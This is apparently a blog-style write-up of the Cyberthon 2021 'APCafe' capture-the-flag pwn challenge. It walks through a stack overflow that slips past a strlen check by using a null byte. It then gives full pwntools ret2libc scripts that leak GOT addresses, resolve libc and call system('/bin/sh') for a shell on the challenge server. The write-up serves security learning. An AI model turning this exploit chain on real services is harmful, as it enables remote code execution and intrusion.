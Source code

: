 ```yaml
---
title: Cyberthon 2021 - APCafe (pwn)
date: 2021-05-19T05:59:12Z
draft: false
description: ret2libc, null byte terminator
tocOpen: true
---
```


> We've received intel that APOCALYPSE is running a cafe as a front for their illegal activities. Although it seems like a regular cafe on the outside, serving local favourites such as Kopi-O, Milo, and Yuan Yang, we believe that something more sinister is going on. Could u try to find a way to break in so we can investigate further?
>
> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30101
>
> Note: once you get a shell, the flag.txt can be found in the user's home directory.
>
> Attached : [apcafe.zip](attachments/apcafe.zip)

## Overview
---

Decompiling the binary in IDA, we get a pretty clean code

```c
main{

  char v4[10]; // [rsp+6h] [rbp-Ah] BYREF

  setup_IO(argc, argv, envp);
  banner();
  printf("What do you want to order? ");
  __isoc99_scanf("%s", v4);
  serve_order(v4);
  return 0;

}

serve_order{
  if ( strlen(v4) > 0xA )
{
  puts(s);
  puts("Huh? What kind of weird order is this? Please leave.\n");
  exit(0);
}
for ( i = 0; i <= 4; ++i )
{
  if ( !strcmp(v4, &DRINKS[10 * i]) )
  {
    puts(s);
    puts("*****************************");
    printf(" Here is your %s!\n", &DRINKS[10 * i]);
    puts("*****************************");
    puts("ASCII ART HERE")
    return puts("Bye! Hope to see you again!");
  }
}
puts(s);
return printf("Sorry, we don't sell %s...\n", v4);
}
```
As you can see the program is rather straightforward.

1. It takes in an input string into _v4_, whereby _v4_ is then called as an argument to `serve_order()`.
2. The length of the v4 string is then compared with **0xA**. If `strlen(v4) > 0xA`, the program exits immediately.
3. Else, the program uses an **if** operator, and has 2 outcomes. Both of which returns to main().


## Exploitation Ideas
---

The length of our input is not limited by scanf, however if we write more than **0xA** characters, we will fail and exit. If we exit, there is **no room for exploitation**.

This is where strlen function comes in:

> The C library function size_t strlen(const char *str) computes the length of the string str up to, but not including the terminating null character.

Since strlen only counts up to a terminating null character, we can artificially put in a terminating null character.

Now that we have control over our return pointer, how could we exploit this program? A simple ret2libc should suffice.

The logic of the exploit will go like this.

1. We overflow the buffer and reach the return address,
2. With the return address, we leak libc and loop back to the program
3. With our LIBC leak, we can find the libc on the remote server
4. With the LIBC on the remote server, we can calculate the address of **system()**.
5. Return to LIBC system('/bin/sh\x00')


## Exploitation
---

We first leak ourself a LIBC by overflowing the buffer and overwriting the return address, to **puts()** GOT and leak LIBC address.

```py
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30101)  # connect to remote service
context.binary = elf = ELF('apcafe')                          # provide the context to our pwntools
#libc = ??

payload = b'water\x00'                                        # put any string with a valid size
payload += b"A" * (0x12 - len(payload))                       # pad up to 10+8 chracters to reach the return address

rop = ROP(elf)                                                # set up our rop chain
rop.puts(elf.got.puts)                                        # leak puts GOT
rop.puts(elf.got.printf)                                      # leak printf GOT
p.sendline(payload + rop.chain())

p.recvuntil(b'Sorry, we don't sell water...')
p.recvline()
puts = hex(u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00')))   # puts leak
printf = hex(u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))) # printf leak

#: OUTPUT
#: 0x7fb9231935a0
#: 0x7fb923170e10
```

With our leaks, we can easily find the remote LIBC with [libc-databse](https://github.com/niklasb/libc-database) or [libc blukat](https://libc.blukat.me/?q=puts%3A0x7fb9231935a0%2Cprintf%3A0x7fb923170e10).

![image](attachments/apcafescreenshot1.png)

We are easily able to narrow down the remote LIBC to 3 c libraries, from experience, all 3 are almost identical which makes almost all of them usable. _not always true_

With the leak, we are able to finish our code and get the flag.


```py
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30101)  # connect to remote service
context.binary = elf = ELF('apcafe')                          # provide the context to our pwntools
libc = ELF('libc6_2.31-0ubuntu9_amd64.so')

payload = b'water\x00'                                        # put any string with a valid size
payload += b"A" * (0x12 - len(payload))                       # pad up to 10+8 chracters to reach the return address

rop = ROP(elf)                                                # set up our rop chain
rop.call(rop.ret[0])                                          # stack alignment
rop.puts(elf.got.puts)                                        # leak puts GOT
rop.puts(elf.got.printf)                                      # leak printf GOT
rop.main()
p.sendline(payload + rop.chain())

p.recvuntil(b"Sorry, we don't sell water...")
p.recvline()
puts = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))        # puts leak
printf = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))     # printf leak

libc.address = puts - libc.sym.puts

binsh = (next(libc.search(b'/bin/sh')))
rop = ROP([libc, elf])
rop.call(rop.ret[0])                                          # align the stack
rop.system(binsh)                                             # call system('/bin/sh')
p.sendline(payload + rop.chain())

p.clean()
p.sendline('cat */*/flag*')
print(p.recvall())
```


**Cyberthon{th4t5_4_r34lly_l000ng_0rd3r_dud3_pl5_ch1ll}**
